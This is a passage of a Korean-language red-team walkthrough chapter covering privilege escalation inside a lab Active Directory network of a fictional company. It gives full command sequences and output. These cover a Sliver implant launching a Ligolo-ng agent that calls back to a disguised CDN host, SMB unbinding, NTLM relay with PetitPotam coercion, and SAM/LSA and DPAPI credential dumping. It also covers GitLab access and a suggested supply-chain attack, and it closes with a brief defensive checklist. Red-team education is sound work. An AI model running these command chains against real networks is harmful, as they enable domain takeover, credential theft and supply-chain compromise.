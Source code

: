 # 10. 권한 상승 및 목표 달성

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* 윈도우 SMB Unbinding을 통한 현실적인 NTLM Relay 공격
* Ligolo-NG
* SAM/LSA 덤프
* DPAPI 덤프
* Dynamic Port Forwarding을 통한 SOCKS 프록시 사용

<figure><img src="../.gitbook/assets/AttackPath15-CompromisingDEV.drawio.png" alt=""><figcaption></figcaption></figure>

SESSIONJH01의 파일 시스템을 뒤져보면 꽤 많은 DEV와 KR 유저들의 홈 디렉토리가 보인다. DPAPI 덤프를 하면 좋겠지만, 도메인 관리자가 아닌 로컬 관리자로 DPAPI덤프를 떠봤자 현재 유저의 계정 정보만 얻을 수 있다.

이전에 DEV 도메인의 블러드하운드를 확인했을 때 DEV에 SCCM 관련된 호스트들이 보였었다. 최근 나온 Misconfiguration Manager를 이용해 SCCM 관련된 공격을 진행해본다.

1. SESSIONJH01에서 모든 SCCM 관련된 호스트들의 SMB, MSSQL 등의 포트에 접근 가능하다
2. SESSIONJH01에 몇명의 유저들이 있지만, 모두 RDP만 사용중이다

1번과 2번 덕분에 NTLM Relay를 이용한 TAKEOVER1, TAKEOVER2 등의 TTP를 사용해도 무방할 것 같다. SMB를 Unbind 한 뒤, 리모트 포트 포워딩을 구축하고, Ligolo-ng로 프록시(는 아니지만)를 구축한 뒤, TAKEOVER 2를 활용한 SMB to SMB NTLM Relay 공격을 진행한다.

TAKEOVER2 공격은 SCCM의 SITESRV나 MGMT 서버 머신 계정들이 SCCM 데이터베이스 서버에 로컬 관리자 권한을 갖고 있어서 사용 가능한 공격이다. 강제 인증과 NTLM Relay 공격을 통해 SITESRV/MGMT 머신 계정의 맥락을 얻어낸 뒤, SCCM 데이터베이스에서 SAM/LSA 등을 덤프하는 공격이다.



<figure><img src="../.gitbook/assets/AttackPath13-Ligolo-ng-TAKEOVER2.drawio.png" alt=""><figcaption></figcaption></figure>

공격은 다음과 같은 순서로 이뤄진다. (0. SESSIONJH01의 포트 445 SMB Unbind)

1. Ligolo-NG 구축 (SOCKS도 가능하지만, 속도와 더블 SOCKS를 사용해야해서 Ligolo-NG로 대체)
2. SESSIONJH01의 포트 445에 리모트 포트 포워딩 구축
3. SCCM-SITESRV로 강제 인증 (Petitpotam, PrintSpooler, DFSCoerce, 등)
4. SCCM-SITESRV에서 Sliver 팀서버로 Net-NTLM 콜백
5. NTLM Relay, 대상은 SCCM-SQL의 SMB 서비스
6. NTLM Relay를 통해 SCCM-SQL에게 SOCKS Proxy 구축
7. SOCKS를 통해 SCCM-SQL에게 SITESRV$ 머신 계정으로 접근, SAM/LSA 덤프

실제 공격은 아래와 같이 이뤄진다. 리다이렉터에 이미 Ligolo-NG 콜백 관련된 코드가 있기 때문에, 업로드 후 실행만 하면 된다.

```
// 1. Ligolo-NG 구축  
sliver (WORTHWHILE_PROMOTION) > upload /root/ligolo-agent.exe "c:\\windows\\temp\\agent.exe"

sliver (WORTHWHILE_PROMOTION) > execute c:\\windows\\system32\\cmd.exe /c "c:\\windows\\temp\\agent.exe -ignore-cert -connect https://tiny-bar-f413.fonts-cdn.workers.dev -ua "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.3339.396 Safari/537.36" "

// 2. SESSIONJH01의 SMB Unbind 
root@ip-10-1-14-169:/# python3 /opt/smbtakeover/python/smbtakeover.py kr.rt.local/jeong.sangmi:strawberry@10.2.100.100 check
root@ip-10-1-14-169:/# python3 /opt/smbtakeover/python/smbtakeover.py kr.rt.local/jeong.sangmi:strawberry@10.2.100.100 stop

// 3. 리모트 포트 포워딩 445 Bind 
sliver (WORTHWHILE_PROMOTION) > rportfwd add -b 0.0.0.0:445 -r 127.0.0.1:445

// 4. SITESRV -> SCCM-SQL로 NTLM Relay 구축  
root@ip-10-1-14-169:/# ntlmrelayx.py -t smb://10.2.100.13 -socks -socks-port 1080 -smb2support

// 5. SITESRV에 강제 인증
root@ip-10-1-14-169:/# python3 /opt/PetitPotam/PetitPotam.py -u jeong.sangmi -p strawberry -d kr.rt.local 10.2.100.100 10.2.100.15

// 6. NTLM Relay 성공, SCCM-SQL에 SOCKS 구축 
ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 127.0.0.1, attacking target smb://10.2.100.13
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.2.100.13:445  ...  OK
[*] Authenticating against smb://10.2.100.13 as DEV/SCCM-SITESRV$ SUCCEED
[*] SOCKS: Adding DEV/SCCM-SITESRV$@10.2.100.13(445) to active SOCKS connection. Enjoy

// 7. SOCKS를 이용해 SCCM-SQL에 SAM/LSA 덤프 
root@ip-10-1-14-169:~# proxychains -f /etc/proxychains4-1080.conf secretsdump.py 'DEV/SCCM-SITESRV$@10.2.100.13' -no-pass -skip-sam

[*] DPAPI_SYSTEM 
dpapi_machinekey:0xfe0c118128b665ba994a13ca4c6c0806f1a73511
dpapi_userkey:0x65f3ee89e9c6b1f60690a2022a680dafa4096bdf
[*] NL$KM 
 0000   C8 63 E4 39 02 45 B7 A7  FD 55 FB 4F 70 08 F9 3B   .c.9.E...U.Op..;
 0010   BB F8 C5 15 FD 32 C4 40  AC D0 CF 0F 3A 1C 32 1D   .....2.@....:.2.
 0020   51 F1 03 3A D5 66 30 67  B7 02 A3 0F AB D0 68 61   Q..:.f0g......ha
 0030   DA CF DA DF FE A4 46 90  17 11 20 FD F9 45 A0 E3   ......F... ..E..
NL$KM:c863e4390245b7a7fd55fb4f7008f93bbbf8c515fd32c440acd0cf0f3a1c321d51f1033ad5663067b702a30fabd06861dacfdadffea44690171120fdf945a0e3
[*] _SC_MSSQLSERVER 
dev\sqlsccmsvc:Password123
```

맨 마지막에 SQLSCCMSVC 서비스 계정의 평문 비밀번호가 나오는데, 해당 계정은 도메인 관리자 소속이다.

```
# proxychains nxc smb 10.2.100.10 -u sqlsccmsvc -p Password123 -d dev.raccoon 
root@ip-10-1-14-169:~# proxychains nxc smb 10.2.100.10 -u sqlsccmsvc -p Password123 -d dev.raccoon
SMB         10.2.100.10     445    DDC01            [*] Windows Server 2022 Build 20348 x64 (name:DDC01) (domain:dev.raccoon) (signing:True) (SMBv1:False) 
SMB         10.2.100.10     445    DDC01            [+] dev.raccoon\sqlsccmsvc:Password123 (Pwn3d!) 
```

도메인 관리자의 권한을 얻었으니, 다시 SESSIONJH01로 돌아가 이번에는 DPAPI 덤프를 진행한다. 해당 점프 서버는 많은 수의 개발자 및 IT 관리자들이 사용하는 서버다. 그 중 분명 비밀번호 관리 소프트웨어 (Bitwarden, 1Password, KeePass, 등)을 사용하지 않는 유저도 있을 것이다.

DPAPI 덤프의 경우 해당 머신의 모든 유저들의 마스터 키를 바탕으로 비밀들을 얻으려면 도메인 관리자 권한이 필요하다. 때문에 이를 바탕으로 DPAPI 덤프를 하면 특정 머신에 등록되어 있는 모든 유저들의 비밀을 얻을 수 있다.

SESSIONJH01의 SMB를 다시 bind 시킨 다음, DPAPI 덤프를 진행한다.

```
root@ip-10-1-14-169:/# python3 /opt/smbtakeover/python/smbtakeover.py kr.rt.local/jeong.sangmi:strawberry@10.2.100.100 start

root@ip-10-1-14-169:~# netexec smb 10.2.100.100 -u sqlsccmsvc -p Password123 --dpapi                                                                      
SMB         10.2.100.100    445    SESSIONJH01      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SESSIONJH01) (domain:dev.raccoon) (signing:False) (SMBv1:False)
SMB         10.2.100.100    445    SESSIONJH01      [+] dev.raccoon\sqlsccmsvc:Password123 (Pwn3d!)
SMB         10.2.100.100    445    SESSIONJH01      [+] Loading domain backupkey from nxcdb...
SMB         10.2.100.100    445    SESSIONJH01      [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.2.100.100    445    SESSIONJH01      [+] Got 8 decrypted masterkeys. Looting secrets...
SMB         10.2.100.100    445    SESSIONJH01      [Banerjee.Sunil][FIREFOX] http://10.2.110.20 - Banerjee.Sunil:tryaccess
```

SESSIONJH01 세션 호스트에서 Banerjee.Sunil이라는 유저가 10.2.110.20 호스트에 사용하던 계정 정보가 나왔다. 이 유저가 US, KR, RT, DEV에 모두 없는 걸로 보아 IN (in.dev.raccoon) 도메인 유저일 가능성이 높다. 확인해보자.

```
sliver (WORTHWHILE_PROMOTION) > make-token -u banerjee.sunil -p tryaccess -d in.dev.raccoon

[*] Successfully impersonated in.dev.raccoon\banerjee.sunil. Use `rev2self` to revert to your previous token.

sliver (WORTHWHILE_PROMOTION) > ls \\\\idc01.in.dev.raccoon\\SYSVOL

\\idc01.in.dev.raccoon\SYSVOL\ (1 item, 0 B)
============================================
Lrw-rw-rw-  in.dev.raccoon -> C:\Windows\SYSVOL\domain  0 B  Fri Jan 24 13:35:10 +0900 2025
```

IN의 도메인 컨트롤러인 idc01.in.dev.raccoon의 SYSVOL 쉐어에 접근이 가능한 것으로 보아 IN 도메인의 유저 중 하나라는 것을 알 수 있다. IN에도 블러드하운드를 실행할 수 있겠지만, 일단은 레드팀의 목적을 모두 달성한 것 같기 때문에 먼저 10.2.110.20를 방문한다.

Ligolo-ng를 사용해서 10.2.110.20과 관련된 포트를 방문해보면 Gitlab이 보인다.

<figure><img src="../.gitbook/assets/8-gitlab.png" alt=""><figcaption></figcaption></figure>

앞서 DPAPI로 얻은 Banerjee.Sunil 유저의 계정 정보로 로그인을 하면 라쿤테크 외주 프로젝트인 라쿤앱과 라쿤 플랫폼의 소스코드를 담은 프로젝트들이 보인다. Banerjee.Sunil 유저는 해당 프로젝트의 PM으로서, 리포들에 대한 모든 권한을 갖고 있다.



<figure><img src="../.gitbook/assets/8-gitlab2.png" alt=""><figcaption></figcaption></figure>

공격자는 이를 바탕으로 소스 코드를 탈취하거나, Gitlab CI/CD 프로세스를 통해 소스 코드를 변환할 수도 있다. 이를 통해 라쿤 테크 및 라쿤 테크의 고객사들을 향한 공급망 공격도 가능할 것이다.



## 우리 회사는

* DPAPI 덤프에 대항하기 위해 비밀번호 관리 솔루션 혹은 서버를 운영하고 있는가?
* 문서 서버나 유저들의 데스크탑에 `비번.txt` 등으로 안전하지 못하게 비밀번호를 관리하고 있는 것은 아닌가?
* PAM 서버 등을 운영하며 MFA를 적용했는가?
* CI/CD, 소스 코드 관리 서버 등에 접근할 때 IdP, SSO, MFA 등을 적용했는가?





최종적으로 라쿤 테크를 향한 레드팀은 다음의 공격 경로를 통해 이뤄졌다.

<figure><img src="../.gitbook/assets/AttackPath14-done.drawio.png" alt=""><figcaption></figcaption></figure>





